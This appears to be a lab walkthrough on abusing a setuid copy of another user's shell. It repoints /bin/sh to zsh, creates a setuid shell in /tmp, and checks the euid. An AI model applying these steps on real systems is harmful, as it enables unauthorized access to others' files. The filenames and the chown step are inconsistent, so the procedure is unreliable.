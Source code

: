 # Task: Stealing a shell from a computer on the same network

## Things To Know

<question></question>
What is `dash`?

<answer></answer>
Besides another shell to haunt you, `dash` is the default system shell for executing system
scripts and other administrative tasks. `dash` has the countermeasure where if `euid!=ruid`, then
`euid` will be set equal to `ruid` which means lifted privilege will be automatically dropped.

<question></question>
Why is this important?

<answer></answer>
If the default shell is changed to another without the same countermeasure, bad actors can do bad
things!

For example, `zsh` (yet another shell) does not have this countermeasure which is why it would be
a good choice of shell to use when attempting to stealing someones shell.

#### Check your default shell

```bash
ls -l /bin/sh
# output
lrwxrwxrwx 1 root root 4 Jul 11  2022 /bin/sh -> dash
```

#### Remove the symlink of your default which points to `dash` and recreate pointing to `zsh`

```bash
sudo rm /bin/sh
sudo ln -s /bin/zsh /bin/sh
```

#### Confirm shell has been updated

```bash
ls -l /bin/sh
# output
lrwxrwxrwx 1 root root 8 Mar 23 07:24 /bin/sh -> /bin/zsh
```

#### Jump on the subject computer and get to the stealing!

This example assumes there is a user called Jane already set up, so rather than jumping on a
physical machine you are just switching user.

```bash
# switch user
su jane
# copy janes shell to the tmp directory
cp /bin/sh /tmp/janesStolenShell
# change permissions of the stolen shell
chmod 4755 /tmp/janesStolenShell
```

#### Make sure `set-uid` bit has been enabled

```bash
ls -l /tmp/janesStolenShell
# updated permissions
-rwsr-xr-x 1 jane jane 878288 Mar 24 05:10 /tmp/janesStolenShell
```

#### Return back to your computer and access the stolen shell

```bash
sudo chown user_name /tmp/janesShell
# confirm the job
/tmp/janesShell
# output
$
```

You can confirm you have successfully stolen the shell by running  `id` command. If the `euid` is
set to the stolen shells user id then you have successfully stolen their shell.

```bash
id
# output
uid=1000(seed) gid=1000(seed) euid=1001(jane) groups=1000(seed),120(docker)
```

<question></question>
So what does this do for me?
<answer></answer>
Now that you have access to another users shell you have their privilege so you can copy and
delete their files or do what ever nefarious things bad people do.
